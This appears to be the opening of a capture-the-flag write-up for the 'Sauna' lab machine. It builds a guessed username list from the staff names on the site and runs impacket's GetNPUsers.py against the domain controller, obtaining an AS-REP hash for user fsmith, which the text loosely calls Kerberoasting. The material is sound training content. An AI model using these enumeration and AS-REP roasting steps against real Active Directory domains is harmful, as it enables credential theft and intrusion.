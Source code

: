 The website is about the Egotistical Bank.

![Sauna website](/media/2020.07/sauna_01.png)

The only "interesting" page is the "about" page where we can get a list of the
"amazing" team.

![Sauna the "amazing" team](/media/2020.07/sauna_02.png)

We get the teams members and put them in a file. We try to guess the name
convention use by the company. For instance, for the employee John Doe we try
"john.doe", "jdoe", "jodoe". This give use a list of possible users as the
following:

    :::text
    fergus.smith
    hugo.bear
    steven.kerb
    shaun.coins
    bowie.taylor
    sophie.driver
    fsmith
    hbear
    skerb
    scoins
    btaylor
    sdriver
    fesmith
    hubear
    stkerb
    shcoins
    botaylor
    sodriver

We launch [impacket's](https://github.com/SecureAuthCorp/impacket/) script
`GetNPUsers.py` against our users list. We get the krb5tgs/Kerberoasting hash of the fsmith
user.

    :::text
    python GetNPUsers.py  -dc-ip 10.10.10.175  egotisticalbank/ -usersfile ~/pentest/htb_sauna/users
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    $krb5asrep$23$fsmith@EGOTISTICALBANK:7737b8e55d1ac7976a01e619a1268567$268f28ec59cfeda91a139f8f8c2c5cb9679d0dc04ba133f031b3021ebbd203888cd12633a0e604ad28420ff3fe41694d38f55b434bbe2af2b7ee0958a9a5705e4a880e2ecebb74a4d1aca73371cfcb73fb54a61520392d76079cc32bf3e128b87e3450d68361a84b4c686104e2fe13dc3cd7bd381a5ac87737ab8b95908bf0be409c7642fcfac3599aca04d19fd0f25f7bb4908a6fb496975f68ee3a4761ca406a43502b86410774127f25a5dc14c76dde7ac458df451dbcb093c4c6d069406e98c4839ecd6a0952a0850c289fab93e29682ec64cb690add83d0c6986c8f078bf25e53662f7d7fcc2c1e4740554036218a71320da2067a1298
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
